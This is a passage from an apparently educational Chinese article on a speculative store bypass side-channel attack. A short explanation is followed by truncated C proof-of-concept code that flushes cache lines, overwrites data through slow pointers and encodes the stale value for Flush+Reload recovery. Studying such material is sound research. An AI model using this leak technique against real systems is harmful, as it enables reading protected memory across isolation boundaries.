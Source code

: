 我们首先给一个数组的一个元素str[1]赋值一个我们期望攻击的地址，然后通过一个复杂的浮点计算来计算一个变量，并且让这个变量的计算结果也是1，这时我们再重新给str[1]赋值，当然这次赋值不是直接赋值，而是用上面需要计算的变量作为数组的下标，从而造成一种模糊依赖条件；让CPU进入推断执行状态，从而错误地加载一个任意地址的内容进入data cache. 这样就实现了对该地址内容的[侧信道](https://zhida.zhihu.com/search?content_id=175976174&content_type=Article&match_order=2&q=侧信道&zhida_source=entity)攻击。

```C
#include <pthread.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <seccomp.h>
#include <linux/seccomp.h>


#include "libcache/cacheutils.h"

// inaccessible (overwritten) secret
#define SECRET      "INACCESSIBLE SECRET"
#define OVERWRITE   '#'

char* data;

char access_array(int x) {
  // store secret in data
  strcpy(data, SECRET);

  // flushing the data which is used in the condition increases
  // probability of speculation
  mfence();
  char** data_slowptr = &data;
  char*** data_slowslowptr = &data_slowptr;
  mfence();
  flush(&x);
  flush(data_slowptr);
  flush(&data_slowptr);
  flush(data_slowslowptr);
  flush(&data_slowslowptr);
  // ensure data is flushed at this point
  mfence();

  // overwrite data via different pointer
  // pointer chasing makes this extremely slow
  (*(*data_slowslowptr))[x] = OVERWRITE;

  // data[x] should now be "#"
  // uncomment next line to break attack
  //mfence();
  // Encode stale value in the cache
  cache_encode(data[x]);
}

int main(int argc, const char **argv) {
  data = malloc(128);
  // Detect cache threshold
  if(!CACHE_MISS)
    CACHE_MISS = detect_flush_reload_threshold();
  printf("[\x1b[33m*\x1b[0m] Flush+Reload Threshold: \x1b[33m%zd\x1b[0m\n", CACHE_MISS);
  
  pagesize = sysconf(_SC_PAGESIZE);
  // countermeasure:
  // prctl(PR_SET_SPECULATION_CTRL, PR_SPEC_STORE_BYPASS, PR_SPEC_DISABLE, 0, 0);
```
